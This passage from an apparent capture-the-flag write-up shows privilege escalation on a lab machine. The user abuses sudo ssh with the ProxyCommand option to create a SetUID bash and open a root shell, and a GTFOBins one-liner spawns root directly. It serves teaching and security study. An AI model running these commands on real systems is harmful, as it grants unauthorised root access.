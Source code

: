 There’s a GTFObins page for `ssh`, but it’s more fun to look at the [man page](https://man.openbsd.org/ssh_config#ProxyCommand). SSH has an option called `ProxyCommand`. I actually use this in real life to connect to SSH servers through a socks proxy. I have an SSH config file that looks like this:

![image-20240227131623646](/img/image-20240227131623646.png)

When I run `ssh [hostname]`, it runs `nc` connecting to `localhost:1080` as a SOCKS5 (`-X 5`) proxy, and then my SSH connection can travel over that proxy.

The `ProxyCommand` is run on the client before making the connection, so I can abuse that to do arbitrary things as the user who is running the `ssh` command. In this case, that’s root because of `sudo`. I’ll show touching a file:

```

josh@cozyhosting:~$ sudo ssh -o ProxyCommand='touch /tmp/0xdf' x
kex_exchange_identification: Connection closed by remote host
Connection closed by UNKNOWN port 65535
josh@cozyhosting:~$ ls -l /tmp/0xdf 
-rw-r--r-- 1 root root 0 Feb 27 18:19 /tmp/0xdf

```

It works. I can use this to make a SetUID `bash`:

```

josh@cozyhosting:~$ sudo ssh -o ProxyCommand='cp /bin/bash /tmp/0xdf' localhost
kex_exchange_identification: Connection closed by remote host
Connection closed by UNKNOWN port 65535
josh@cozyhosting:~$ sudo ssh -o ProxyCommand='chmod 6777 /tmp/0xdf' localhost
kex_exchange_identification: Connection closed by remote host
Connection closed by UNKNOWN port 65535
josh@cozyhosting:~$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 root root 1396520 Feb 27 18:20 /tmp/0xdf

```

Now running it (with `-p` to not drop privs) gives a root shell:

```

josh@cozyhosting:~$ /tmp/0xdf -p
0xdf-5.1# id
uid=1003(josh) gid=1003(josh) euid=0(root) egid=0(root) groups=0(root),1003(josh)

```

GTFObins gives a shorter path, using redirection to get the shell immediately from the `ssh` process:

```

josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)

```

Either way, I can grab the flag:

```

0xdf-5.1# cat /root/root.txt
01ebd55a************************

```